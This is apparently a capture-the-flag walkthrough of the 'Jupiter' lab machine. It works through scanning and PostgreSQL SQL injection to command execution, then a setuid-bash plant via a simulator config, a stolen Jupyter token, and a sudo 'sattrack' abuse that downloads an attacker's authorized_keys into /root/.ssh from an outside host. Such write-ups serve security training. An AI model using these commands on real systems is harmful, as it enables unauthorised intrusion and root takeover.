





# Jupiter
## Enumeration
- ```Nmap```
```
└─$ nmap -Pn -p- 10.10.11.216 --min-rate 5000                               
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-30 17:44 GMT
Nmap scan report for 10.10.11.216 (10.10.11.216)
Host is up (0.25s latency).
Not shown: 65521 filtered tcp ports (no-response)
PORT     STATE  SERVICE
22/tcp   open   ssh
23/tcp   closed telnet
25/tcp   closed smtp
80/tcp   open   http
110/tcp  closed pop3
113/tcp  closed ident
139/tcp  closed netbios-ssn
143/tcp  closed imap
445/tcp  closed microsoft-ds
993/tcp  closed imaps
1025/tcp closed NFS-or-IIS
1720/tcp closed h323q931
1723/tcp closed pptp
3389/tcp closed ms-wbt-server
5900/tcp closed vnc

Nmap done: 1 IP address (1 host up) scanned in 36.41 seconds
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.11.216 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-30 17:56 GMT
Nmap scan report for 10.10.11.216 (10.10.11.216)
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.80 seconds

```

- Web server


- `vhosts`
```
└─$ wfuzz -u http://jupiter.htb/ -H 'Host: FUZZ.jupiter.htb' -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 12
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://jupiter.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000001955:   200        211 L    798 W      34390 Ch    "kiosk"  
```

- `gobuster`
```
└─$ gobuster dir -u http://jupiter.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jupiter.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,js,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 162]
/index.html           (Status: 200) [Size: 19680]
/contact.html         (Status: 200) [Size: 10141]
/about.html           (Status: 200) [Size: 12613]
/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/services.html        (Status: 200) [Size: 11969]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/portfolio.html       (Status: 200) [Size: 11913]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]

```
```
└─$ gobuster dir -u http://kiosk.jupiter.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,html,js,php --no-error --exclude-length 178 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://kiosk.jupiter.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          178
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 34390]
/profile              (Status: 302) [Size: 29] [--> /login]
/signup               (Status: 200) [Size: 34390]
/public               (Status: 302) [Size: 31] [--> /public/]
/admin                (Status: 302) [Size: 24] [--> /]
/plugins              (Status: 302) [Size: 24] [--> /]
/live                 (Status: 302) [Size: 24] [--> /]

```

- Web Servers


## Foothold
- If we reload the `kiosk.jupiter.htb` we see a bunch of requests
  - The most interesting is to `/api/ds/query`
  - It contains raw sql query in `rawSql`
  - And also the type indicates `postgresql`



- We could try injecting own query


- Let's test for [RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)
  - We have to perform several steps:
    - `DROP TABLE IF EXISTS cmd_exec;`
    - `CREATE TABLE cmd_exec(cmd_output text);`
    - `COPY cmd_exec FROM PROGRAM 'id';`
    - `SELECT * FROM cmd_exec;`
  - And it works



- Let's get reverse shell


## User #1
- When I navigated to `/dev/shm` to download `linpeas` and `pspy`, I noticed interesting files
```
postgres@jupiter:/dev/shm$ ls -lha
total 3.0M
drwxrwxrwt  3 root     root      120 Nov  9 15:12 .
drwxr-xr-x 20 root     root     4.0K Nov  9 13:55 ..
-rw-rw-rw-  1 juno     juno      815 Mar  7  2023 network-simulation.yml
-rw-------  1 postgres postgres  27K Nov  9 13:55 PostgreSQL.4072022748
drwxrwxr-x  3 juno     juno      100 Nov  9 15:12 shadow.data
```

- Running `pspy` shows that `juno` is running `shadow-simulation.sh` script
  - It's a [Shadow Simulator](https://shadow.github.io/docs/guide/shadow.html) - `is a discrete-event network simulator that directly executes real application code, enabling you to simulate distributed systems with thousands of network-connected processes in realistic and scalable private network experiments using your laptop, desktop, or server running Linux`



- `network-simulation.yml`
```
postgres@jupiter:/dev/shm$ cat network-simulation.yml 
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s

```

- We can modify the `yml`
  - Let's do that
```
<SNIP>
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /bin/bash /tmp/juno
      start_time: 3s
    - path: /usr/bin/chmod
      args: 6755 /tmp/juno
      start_time: 5s
<SNIP>
```

- After few minutes, we our copy of the `bash`, which we can run as `juno`
```
postgres@jupiter:/dev/shm$ /tmp/juno -p
juno-5.1$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) egid=1000(juno) groups=1000(juno),119(ssl-cert),120(postgres)
```
## User #2
- I switched to `ssh` by adding my public key
  - And now I have additional group
```
juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)
```

- Now we have access to `/opt/solar-flares`
```
juno@jupiter:~$ find / -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
/opt/solar-flares/.ipynb_checkpoints
/opt/solar-flares/mflares.csv
```

- It's a `Jupyter Notebook`
  - It's default port is `8888`
```
juno@jupiter:/opt/solar-flares$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -  
```
```
juno@jupiter:/opt/solar-flares$ ps -ef | grep jup
jovian      1171       1  0 13:55 ?        00:00:00 /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb
```

- Let's configure port forwarding with `-L 8888:localhost:8888`



- It asks for password/token
  - We can check logs and we see the token
```
[W 13:55:55.539 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 13:55:55.546 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 13:55:55.546 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 13:55:55.546 NotebookApp] http://localhost:8888/?token=93a510badf67fc14909e3886fe650956f91e86941894099b
[I 13:55:55.546 NotebookApp]  or http://127.0.0.1:8888/?token=93a510badf67fc14909e3886fe650956f91e86941894099b
[I 13:55:55.546 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
[W 13:55:55.550 NotebookApp] No web browser found: could not locate runnable browser.
[C 13:55:55.550 NotebookApp] 
    
    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-1171-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=93a510badf67fc14909e3886fe650956f91e86941894099b
     or http://127.0.0.1:8888/?token=93a510badf67fc14909e3886fe650956f91e86941894099b
[I 15:42:42.225 NotebookApp] 302 GET / (127.0.0.1) 1.850000ms
[I 15:42:42.985 NotebookApp] 302 GET /tree? (127.0.0.1) 2.720000ms
logs/jupyter-2023-11-09-55.log (END)
```

- We're in


- We can navigate to `http://localhost:8888/notebooks/flares.ipynb` 
  - From there we can execute `python` code



- I'll add my public key


```
└─$ ssh jovian@10.10.11.216                                                 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov  9 03:53:06 PM UTC 2023

  System load:           0.0
  Usage of /:            81.3% of 12.33GB
  Memory usage:          24%
  Swap usage:            0%
  Processes:             239
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.216
  IPv6 address for eth0: dead:beef::250:56ff:feb9:e13d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jovian@jupiter:~$ 
```
## Root
- `sudo`
```
jovian@jupiter:~$ sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack

```

-  I tried executing but it returns error
```
jovian@jupiter:~$ sudo sattrack
Satellite Tracking System
Configuration file has not been found. Please try again!
```
```
jovian@jupiter:~$ strace sattrack 
execve("/usr/local/bin/sattrack", ["sattrack"], 0x7fff7a96c540 /* 23 vars */) = 0
brk(NULL)                               = 0x558aa997a000
arch_prctl(0x3001 /* ARCH_??? */, 0x7ffd2b615b30) = -1 EINVAL (Invalid argument)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f6b33375000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
<SNIP>
futex(0x7f6b3318177c, FUTEX_WAKE_PRIVATE, 2147483647) = 0
newfstatat(1, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x2), ...}, AT_EMPTY_PATH) = 0
write(1, "Satellite Tracking System\n", 26Satellite Tracking System
) = 26
newfstatat(AT_FDCWD, "/tmp/config.json", 0x7ffd2b615600, 0) = -1 ENOENT (No such file or directory)
write(1, "Configuration file has not been "..., 57Configuration file has not been found. Please try again!
) = 57
getpid()                                = 3822
exit_group(1)                           = ?
+++ exited with 1 +++
```

- If we look for `config.json` it's located in different directory
```
jovian@jupiter:~$ find / -name 'config.json' 2>/dev/null
/usr/local/share/sattrack/config.json
/usr/local/lib/python3.10/dist-packages/zmq/utils/config.json
```

- I'll copy the file to `tmp`
```
jovian@jupiter:~$ cat /tmp/config.json 
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://celestrak.org/NORAD/elements/weather.txt",
                "http://celestrak.org/NORAD/elements/noaa.txt",
                "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}

```

- If we try to run `sattrack` again, it fails but different errors
  - It created for files in `/tmp/tle`
```
jovian@jupiter:~$ sattrack
Satellite Tracking System
tleroot does not exist, creating it: /tmp/tle/
Get:0 http://celestrak.org/NORAD/elements/weather.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/noaa.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle
Could not resolve host: celestrak.org
Satellites loaded
No sats

```
```
jovian@jupiter:~$ ls -lha /tmp/tle/
total 8.0K
drwxrwxr-x  2 jovian jovian 4.0K Nov  9 16:19  .
drwxrwxrwt 15 root   root   4.0K Nov  9 16:20  ..
-rw-rw-r--  1 jovian jovian    0 Nov  9 16:19 'gp.php?GROUP=starlink&FORMAT=tle'
-rw-rw-r--  1 jovian jovian    0 Nov  9 16:18  noaa.txt
-rw-rw-r--  1 jovian jovian    0 Nov  9 16:18  weather.txt
```

- According to `config.json`, `tleroot` is the destination (where those files were created)
  - We can host `authorized_keys` on attack box
  - Thus change `tleroot` to `/root/.ssh`
  - And change `tlesources` to `http://<ATTACK_BOX>/authorized_keys`
```
jovian@jupiter:/tmp$ cat config.json 
{
        "tleroot": "/root/.ssh/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.16.4/authorized_keys"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}

```

- Run `sattrack`
```
jovian@jupiter:/tmp$ sudo sattrack 
Satellite Tracking System
Get:0 http://10.10.16.4/authorized_keys
tlefile is not a valid file
```

- And now we can connect as `root`

```
└─$ ssh root@10.10.11.216                                                   
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov  9 04:26:42 PM UTC 2023

  System load:           0.0
  Usage of /:            81.3% of 12.33GB
  Memory usage:          24%
  Swap usage:            0%
  Processes:             243
  Users logged in:       2
  IPv4 address for eth0: 10.10.11.216
  IPv6 address for eth0: dead:beef::250:56ff:feb9:e13d


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


root@jupiter:~# 
```